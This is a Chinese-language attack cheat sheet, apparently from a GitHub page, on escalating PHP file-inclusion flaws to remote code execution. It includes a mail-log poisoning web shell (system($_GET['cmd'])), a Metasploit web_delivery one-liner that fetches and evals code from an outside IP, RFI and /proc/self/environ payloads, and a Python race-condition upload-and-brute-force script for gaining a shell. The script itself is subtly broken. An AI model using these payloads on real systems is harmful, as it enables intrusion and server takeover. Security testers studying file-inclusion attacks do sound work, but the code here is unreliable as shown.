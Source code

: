 	rcpt to: root
	250 2.1.5 Ok
	data
	354 End data with <CR><LF>.<CR><LF>
	subject: <?php echo system($_GET["cmd"]); ?>
	data2
	.
	包含文件
	http://example.com/index.php?page=/var/log/mail

 #### RFI&命令注入上线MSF
	MSF生成
	#use exploit/multi/script/web_delivery
	#set target PHP
	注入点注入：
	php -d allow_url_fopen=true -r "eval(file_get_contents('http://192.168.0.107:1234/OgsOFaj3yKH'));"
	RFI：
	http://www.xx.com/file=http://192.168.0.107:1234/OgsOFaj3yKH
 #### 通过 /proc/*/fd LFI 到 RCE
	上传大量的shell（例如：100）
	http://example.com/index.php?page=/proc/$PID/fd/$FD，其中 $PID = 进程的 PID（可以被暴力破解）和 $FD 文件描述符（也可以被暴力破解）
 #### 通过 /proc/self/environ LFI 到 RCE
  	像日志文件一样，在User-Agent中发送payload，会体现在/proc/self/environ文件里面

	GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
	User-Agent: <?=phpinfo(); ?>
 #### 通过上传完成LFI到RCE
```python
import itertools
import requests
import sys

print('[+] Trying to win the race')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
    requests.post('http://target.com/index.php?c=index.php', f)


print('[+] Bruteforcing the inclusion')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
    url = 'http://target.com/index.php?c=/tmp/php' + fname
    r = requests.get(url)
    if 'load average' in r.text:  # <?php echo system('uptime');
        print('[+] We have got a shell: ' + url)
        sys.exit(0)

print('[x] Something went wrong, please try again')
```
 #### 工具
  	https://github.com/P0cL4bs/Kadimus
	https://github.com/kurobeats/fimap
	https://github.com/lightos/Panoptic